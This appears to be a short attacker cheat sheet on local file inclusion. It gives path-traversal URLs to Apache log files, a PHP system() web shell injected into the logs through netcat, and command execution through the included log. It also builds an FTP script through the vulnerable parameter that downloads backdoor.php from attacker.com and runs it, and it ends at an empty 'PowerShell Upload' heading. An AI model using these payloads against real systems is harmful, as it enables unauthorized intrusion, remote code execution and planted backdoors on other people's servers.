 # LFI/RFI shell tricks
The idea is to inject code into log file then calling the logfile and execute commands

## LFI parameter
	http://example.com/page?id=LFI
## LFI log file inclusion
	try to access the log file, if ok then proceed to inject a shell on the log file
	http://example.com/page?id=../../../../../../../xampp/htdocs/apache/logs/access.log%00
	http://example.com/page?id=../../../../../../../var/log/apache2/access.log%00
	nc example.com 80
	<?php echo system($_GET['cmd']); ?>
## LFI command execution
	http://example.com/page?id=../../../../../../../xampp/htdocs/apache/logs/access.log%00&cmd=whoami
## LFI file upload
Using Windows built in debug.exe (Executables files smaller than 64K)
Idea
	echo hex value to a file and use debug.exe to assemble it

FTP Upload
after setting up your FTP server
	http://example.com/page?id=echo+open+attacker.com+21>+ftp.txt
	http://example.com/page?id=echo+ftpuser>>+ftp.txt
	http://example.com/page?id=echo+ftpass>>+ftp.txt
	http://example.com/page?id=echo+bin+>>+ftp.txt
	http://example.com/page?id=echo+GET+backdoor.php+>>+ftp.txt
	http://example.com/page?id=echo+bye+>>+ftp.txt
	http://example.com/page?id=ftp+-s:ftp.txt
	http://example.com/page?id=backdoor.php?cmd=whoami

PowerShell Upload
